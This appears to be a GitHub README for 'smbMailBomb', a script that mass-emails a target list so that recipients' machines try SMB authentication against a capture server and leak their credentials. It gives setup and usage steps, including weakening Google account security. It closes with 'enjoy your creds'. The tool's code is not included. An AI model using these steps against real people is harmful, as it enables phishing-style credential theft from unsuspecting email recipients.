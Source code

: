# smbMailBomb
A command line utility to test for SMB Forced Authentication

#### Set Up Capture Server:
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
#### Configure Google to allow the script:
  In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
#### From the command line run smbMailBomb.py and enjoy your creds: 
##### Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
######  -f path to target xlsx file
######  -e your google business email
######  -p your google password
######  -ip your capture server IP
#### Requirments:
 pip install -r requirments.txt
#### XLSX:
Add your targets first name and email, following the template provided.
